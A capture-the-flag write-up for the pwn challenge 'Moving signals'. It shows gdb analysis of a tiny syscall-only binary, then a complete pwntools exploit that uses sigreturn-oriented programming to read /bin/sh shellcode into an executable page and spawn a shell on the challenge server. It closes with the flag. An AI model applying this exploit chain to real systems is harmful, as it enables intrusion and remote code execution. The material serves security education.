




# Moving signals

We don't like giving binaries that contain loads of information, so we decided that a small program should do for this challenge. Even written in some custom assembly. I wonder how this could be exploited.

EU instance: 161.97.176.150 2525

US instance: 185.172.165.118 2525

author: Tango

## IDA

Disassembling the binary, this is all that's seen:



That's a very small program. Since the only thing that occurs here is a blank `syscall` with no initialised value for `rax`, it's likely that the binary runs a `read(0, rsp-8, 0x1F4)`  syscall before returning.

We'll verify this with `gdb`:

```python
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x0
$rdx   : 0x1f4
$rsp   : 0x00007ffcb382cdf0  →  0x0000000000000001
$rbp   : 0x0
$rsi   : 0x00007ffcb382cde8  →  0x0000000000000000
$rdi   : 0x0
$rip   : 0x0000000000041015  →  <_start+21> syscall
$r8    : 0x0
$r9    : 0x0
$r10   : 0x0
$r11   : 0x0
$r12   : 0x0
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry PARITY ADJUST sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffcb382cdf0│+0x0000: 0x0000000000000001   ← $rsp
0x00007ffcb382cdf8│+0x0008: 0x00007ffcb382d6d9  →  "/home/throwaway/moving-signals"
0x00007ffcb382ce00│+0x0010: 0x0000000000000000
0x00007ffcb382ce08│+0x0018: 0x00007ffcb382d6f8  →  "SHELL=/bin/bash"
0x00007ffcb382ce10│+0x0020: 0x00007ffcb382d708  →  "PWD=/home/throwaway"
0x00007ffcb382ce18│+0x0028: 0x00007ffcb382d71c  →  "LOGNAME=throwaway"
0x00007ffcb382ce20│+0x0030: 0x00007ffcb382d72e  →  "XDG_SESSION_TYPE=tty"
0x00007ffcb382ce28│+0x0038: 0x00007ffcb382d743  →  "_=/usr/bin/gdb"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
      0x41007 <_start+7>       mov    rsi, rsp
      0x4100a <_start+10>      sub    rsi, 0x8
      0x4100e <_start+14>      mov    rdx, 0x1f4
 →    0x41015 <_start+21>      syscall
      0x41017 <_start+23>      ret
      0x41018 <_start+24>      pop    rax
      0x41019 <_start+25>      ret
      0x4101a                  add    BYTE PTR [rax], al
      0x4101c                  add    BYTE PTR [rax], al
```

The registers look correct, and sure enough, stepping ahead (`ni`) puts a line of input (I typed `"a\n"`) at `rsi`:

```c
$rax   : 0x2
$rbx   : 0x0
$rcx   : 0x0000000000041017  →  <_start+23> ret
$rdx   : 0x1f4
$rsp   : 0x00007ffcb382cdf0  →  0x0000000000000001
$rbp   : 0x0
$rsi   : 0x00007ffcb382cde8  →  0x0000000000000a61 ("a\n"?)
$rdi   : 0x0
$rip   : 0x0000000000041017  →  <_start+23> ret
$r8    : 0x0
$r9    : 0x0
$r10   : 0x0
$r11   : 0x316
$r12   : 0x0
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry PARITY ADJUST sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffcb382cdf0│+0x0000: 0x0000000000000001   ← $rsp
0x00007ffcb382cdf8│+0x0008: 0x00007ffcb382d6d9  →  "/home/throwaway/moving-signals"
0x00007ffcb382ce00│+0x0010: 0x0000000000000000
0x00007ffcb382ce08│+0x0018: 0x00007ffcb382d6f8  →  "SHELL=/bin/bash"
0x00007ffcb382ce10│+0x0020: 0x00007ffcb382d708  →  "PWD=/home/throwaway"
0x00007ffcb382ce18│+0x0028: 0x00007ffcb382d71c  →  "LOGNAME=throwaway"
0x00007ffcb382ce20│+0x0030: 0x00007ffcb382d72e  →  "XDG_SESSION_TYPE=tty"
0x00007ffcb382ce28│+0x0038: 0x00007ffcb382d743  →  "_=/usr/bin/gdb"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
      0x4100a <_start+10>      sub    rsi, 0x8
      0x4100e <_start+14>      mov    rdx, 0x1f4
      0x41015 <_start+21>      syscall
 →    0x41017 <_start+23>      ret
[!] Cannot disassemble from $PC
```

Also, according to gdb, almost everything is executable:

```c
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000040000 0x0000000000041000 0x0000000000000000 r-x /home/throwaway/moving-signals
0x0000000000041000 0x0000000000042000 0x0000000000001000 rwx /home/throwaway/moving-signals
0x00007ffcb380d000 0x00007ffcb382e000 0x0000000000000000 rwx [stack]
0x00007ffcb38b3000 0x00007ffcb38b6000 0x0000000000000000 r-- [vvar]
0x00007ffcb38b6000 0x00007ffcb38b7000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
gef➤
```

At this point, it's pretty obvious what the author wants us to do. You're supposed to make a ROP-chain and abuse it to call user-written shellcode.

## Jumping to shellcode

Initially, I was thinking about using the rwx page at `0x41000` to execute shellcode. This would've been preferable to executing shellcode on the stack, because doing the former requires no ASLR leak.

Unfortunately, there exists no ROP gadget that can (trivially) modify the buffer written to by `read()`. Instead of returning to `0x41000`, we will try using a `write()` syscall to leak the stack, before returning to user-written shellcode at `rsi=rsp`.

We'll start by leaking ASLR:

```python
from pwnscripts import *
context.binary = 'moving-signals'
#r = context.binary.process()
r = gdb.debug(context.binary.path)
RDX = 0x1F4
def mROP():
    R = ROP(context.binary)
    R.raw(0)
    return R
context.log_level = 'debug'
# leak ASLR for stack address
R = mROP()
R.rax = constants.SYS_write
R.call(context.binary.symbols['_start']) # R._start() doesn't work for some reason
r.send(R.chain())
stack_leak = unpack_bytes(r.recv(RDX)[8:16], 8)
```

We'll test this out to check that it works.



Uh-oh. What went wrong here?



A fatal error on my part: I forgot that the file descriptor (`rdi`) has to be set to 1 for writing to stdout. There aren't any gadgets to change rdi available, so what now?

## SROP

I did a bit of bruteforcing with `rax` to see what syscalls would be useful in editing registers. Eventually, I found that syscall number `0xf` will interestingly clobber most registers with values off the stack:



Syscall 15 is the `sys_rt_sigreturn` syscall, and that means that this challenge is meant to be solved with [SigReturn Oriented Programming](https://docs.pwntools.com/en/latest/rop/srop.html). If you're not familiar with SROP, consider it as a magic instruction that allows you to set any register to any value you want.

In this case, I'll edit `rax`, `rdi`, `rsi`, `rdx`, and `rip` to make a `read(0, 0x410??, 999)` call, allowing me to write shellcode to a known location in memory.

```python
# After SigRet, call read(0, rip+2, 0x500).
frame = SigreturnFrame()
frame.rax = constants.SYS_read
frame.rdi = 0
frame.rsi = context.binary.symbols['syscall'] + 2 # the first instr after syscall
frame.rdx = 0x500
frame.rip = context.binary.symbols['syscall']
```

 I'll also have `rsp` set to an r/w location in memory, so that `read()` doesn't crash:

```python
frame.rsp = context.binary.symbols['_start'] + 0xff0    # read() needs a stack
```

In order to put this `SigreturnFrame()` into action, we'll use basic ROP to set `rax` && execute `sys_rt_sigreturn`:

```python
R = ROP(context.binary)
R.raw(0)    # because `sub rsi, 8`
R.rax = constants.SYS_rt_sigreturn	# This is a pwntools-dev feature! Don't expect it to work on your current installation
R.call(frame.rip)
R.raw(bytes(frame))
r.send(R.chain())
```

After this, any shellcode sent to the server will be immediately executed.

```python
r.send(sh())	# sh() is a pwnscripts feature. You can use shellcode.sh() if you don't have it.
r.interactive() # execute shell
```

That works:

```python
[DEBUG] Sent 0x16 bytes:
    00000000  31 f6 56 48  bb 2f 62 69  6e 2f 2f 73  68 53 54 5f  │1·VH│·/bi│n//s│hST_│
    00000010  f7 ee b0 3b  0f 05                                  │···;│··│
    00000016
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x1e bytes:
    b'flag.txt\n'
    b'moving-signals\n'
    b'ynetd\n'
```

## Flag

`flag{s1gROPp1ty_r0p_321321}`

## Full script

```python
from pwnscripts import *
context.binary = 'moving-signals'
context.binary.symbols['syscall'] = context.binary.symbols['_start'] + 0x15
r = remote('161.97.176.150', 2525)

# After SigRet, call read(0, rip+2, 0x500).
frame = SigreturnFrame()
frame.rax = constants.SYS_read
frame.rdi = 0
frame.rsi = context.binary.symbols['syscall'] + 2 # the first instr after syscall
frame.rdx = 0x500
frame.rip = context.binary.symbols['syscall'] # syscall location
frame.rsp = context.binary.symbols['_start'] + 0xff0    # read() needs a stack

R = ROP(context.binary)
R.raw(0)    # because `sub rsi, 8`
R.rax = constants.SYS_rt_sigreturn
R.call(frame.rip)
R.raw(bytes(frame))
r.send(R.chain())
# Now, overwrite the instructions at rip+2 with /bin/sh shellcode.
r.send(sh())
r.interactive() # execute shell
```

